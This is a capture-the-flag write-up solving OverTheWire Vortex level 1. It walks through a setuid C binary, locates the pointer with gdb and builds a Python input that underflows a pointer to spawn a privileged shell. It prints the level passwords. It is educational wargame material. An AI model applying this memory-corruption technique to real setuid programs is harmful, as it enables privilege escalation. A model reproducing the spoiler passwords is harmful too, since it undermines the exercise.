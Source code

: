 ## Vortex Level 1 → Level 2
### Canary Values

Problem page: <http://overthewire.org/wargames/vortex/vortex1.html>

#### Preamble

Okay, vortex level 1, time to start writing exploits, but first, let's go over how these vortex problems work, let's ssh into the lab as vortex1 with the password we got in level 0.  
The `sshpass` program is useful for logging into the vortex machines without having to type the password each time.

```console
sshpass -p Gq#qu3bF3 ssh vortex1@vortex.labs.overthewire.org -p 2228
```

The goal of each vortex level is to get the password for the next level, these passwords can be found in `/etc/vortex_pass/` Let's try to get the password for the vortex2 user.

```console
vortex1@vortex:~$ cat /etc/vortex_pass/vortex2
cat: /etc/vortex_pass/vortex2: Permission denied
vortex1@vortex:~$ ls -l /etc/vortex_pass/vortex2
-r-------- 1 vortex2 vortex2 10 Aug 20 04:24 /etc/vortex_pass/vortex2
```

I didn't expect that to work, but it was worth a shot.  
We see that the owner of the password file is vortex2, so we'll need to convince the lab that we're that user in order to access that file.

The exploitable executables for each problem are located in `/vortex/`, let's look at `/vortex/vortex1`

```console
vortex1@vortex:~$ ls -l /vortex/vortex1
-r-sr-x--- 1 vortex2 vortex1 7607 Aug 20 04:24 /vortex/vortex1
```

What's important to notice here is that the [setuid bit](https://en.wikipedia.org/wiki/Setuid#When_set_on_an_executable_file) of the excecutable is set to `vortex2`, meaning that the file will run as vortex2, this is the case for all the vortex excecutables and will obviously be very useful for us in accessing those password files

Anyways, let's look at the actual code we're going to exploit

#### Finding the exploit

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>


#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }

void print(unsigned char *buf, int len)
{
  int i;

  printf("[ ");
  for(i=0; i < len; i++) printf("%x ", buf[i]);
  printf(" ]\n");
}

int main()
{
  unsigned char buf[512];
  unsigned char *ptr = buf + (sizeof(buf)/2);
  unsigned int x;

  while((x = getchar()) != EOF) {
    switch(x) {
    case '\n': print(buf, sizeof(buf)); continue; break;
    case '\\': ptr--; break; 
    default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
    }
  }
  printf("All done\n");
}
```

Okay, so the goal jumps out at you at the very start of this program

```C
#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }
```

When `e()` is called, if the [most significant byte](https://en.wikipedia.org/wiki/Bit_numbering#Most_significant_byte) of `ptr` is equal to `0xca`, the program will set the real user ID to the effective user ID (i.e. vortex2), and then spawn a shell.  From that shell we would be able to read the contents of the password file.  
So our goal is to have the program call `e()` after we mess with the value of `ptr`, let's look at the program as a whole.

We have two main variables we're dealing with here:  
  * `buf`, a 512-length char array.
  * `ptr`, a char pointer which points to the 256th byte of `buf`

The rest of the program is a while loop that reads input into the `x` variable until `EOF` is recieved. For each character of input the program does one of 3 things:
  * If a newline is inputted, `buf` is printed
  * If a backslash is inputted, `ptr` is decremented, making it point one byte earlier in memory.
  * otherwise, `e()` is called, the value of whatever `ptr` is pointing at is set equal to `x`, then `ptr` is incremented

The way we can exploit this program is in the second case of this switch, `ptr` can be decremented past the start of `buf` and into other memory.  
Remember that our goal is to set the most significant byte of `ptr` to `0xca`. Since memory grows towards lower addresses in the vortex machine's architecture, `ptr` will be located directly `buf` in memory, so if we input enough backslashes, we will be able to have `ptr` point at its own address. We can then input the byte `0xca` into the program to alter `ptr` and be able to pass the conditional in `e()`.

#### Writing the Exploit

Okay so let's start writing the string we'll throw it the program to make it give us a shell. We'll use Python instead of C since strings are just a *teensy* bit easier.

Let's start with the 256 backslashes to get from `ptr`'s initial location to the start of `buf`

```python
print("\\" * 256)
```

Now we need to send some more backslashes to get to the byte we need, however this is a bit more complicated than it might seem. Memory is [alligned](https://en.wikipedia.org/wiki/Data_structure_alignment) differently in different architectures, so `ptr` might not be exactly 4 bytes before `buf`, we might be able to look up processor specifications and do some math to figure out exactly where the byte we need to alter is, but it'll probably be easier to use gdb to look at the disassembly of the program and see where an the stack our local variables are being stored.

```console
vortex1@vortex:~$ gdb /vortex/vortex1
(gdb) disassemble main
Dump of assembler code for function main:
0x080485c0 <+0>:     push   %ebp
0x080485c1 <+1>:     mov    %esp,%ebp
0x080485c3 <+3>:     push   %esi
0x080485c4 <+4>:     push   %ebx
0x080485c5 <+5>:     and    $0xfffffff0,%esp
0x080485c8 <+8>:     sub    $0x220,%esp
0x080485ce <+14>:    mov    %gs:0x14,%eax
0x080485d4 <+20>:    mov    %eax,0x21c(%esp)
0x080485db <+27>:    xor    %eax,%eax
0x080485dd <+29>:    lea    0x1c(%esp),%eax
0x080485e1 <+33>:    add    $0x100,%eax
0x080485e6 <+38>:    mov    %eax,0x14(%esp)
...
End of assembler dump.
(gdb) quit
```

The disassembly is pretty big, so I cut out everything after the info we need. We see that the start of `buf` is at `0x1c` on the stack, and that `ptr` is at `0x14`. Since the vortex machines are on a [little endian](https://en.wikipedia.org/wiki/Endianness#Little-endian) architecture, the most significant bit of `ptr` will be located at the end of the word, so at `0x17` in this case. `0x1c - 0x17 = 0x5` so the byte we need to point at is 5 bytes before the start of `buf`.  
Let's add those 5 more backslashes.

```python
print("\\" * 261)
```

So now we're pointing at the byte we need to change, so let's add the `0xca` byte to our string to set it in order to be able to pass the `e()` conditional.  
Remember that the default case of the program's switch statement also increments `ptr`, so we'll decrement it with another backslash in the incredibly unlikely case that `ptr` was equal to `0xcaffffff` and would have been incremented to `0xcd000000`
We finish off our exploit string with any character that's not `\n` or `\\`, this will call `e()` again and create the shell we need.

```python
print("\\" * 261 + chr(0xca) + "\\" + ".")
```

That'll have the shell spawned, let's add on a `whoami` and the `cat /etc/vortex_pass/vortex2` to the end of our exploit

```python
print("\\" * 261 + chr(0xca) + "\\" + "." + "\nwhoami\ncat /etc/vortex_pass/vortex2\n")
```

Alright, this should do it, let's run it!

```console
vortex1@vortex:~$ python -c 'print("\\" * 261 + "\xca" + "\\" + "." + "\nwhoami\n\cat /etc/vortex_pass/vortex2\n")' | /vortex/vortex1
vortex1@vortex:~$
```

Okay so nothing happenend, which is sub-optimal obviously, but not all that bad.  
Normally before `/vortex/vortex1` exits, it prints out `"All done"`, but that didn't happen this time, so we know that we likely managed to sucessfully spawn the shell. What happened then, why didn't it run the `whoami` or `cat` commands?

#### Fixing the Exploit

Basically on the back end of Linux's syscalls, when a program calls `read()`, it tries to read `4096` bytes at a time, you can read more about the way this linux does these buffers in [this article](http://www.pixelbeat.org/programming/stdio_buffering/).  
Anyways, the result of this behaviour is that there will be no input for the spawned shell to read, as the reads from `vortex2` will have consumed all the data. The shell will then immediately try to read, but only get an `EOF`, which the newly spawned shell interprets as an exit command.

A way we can get around this issue is by writing enough data after the `"."` to make our input be of length `4096` before the commands we want the shell to run.  
The length of our string before the commands is `264`, `4096 - 264 = 3832`, so our final string is:

```python
print("\\"*261 + chr(0xca) + "\\" + "." + "."*3832 + "\nwhoami\ncat /etc/vortex_pass/vortex2\n")
```

Running it:

```console
vortex1@vortex:~$ python -c 'print("\\"*261 + chr(0xca) + "\\" + "." + "."*3832 + "\nwhoami\ncat /etc/vortex_pass/vortex2\n")' | /vortex/vortex1
vortex2
23anbT\rE
vortex1@vortex:~$
```

There we go, level 1 solved! Thankfully level 2 will be a lot less long-winded than this one was.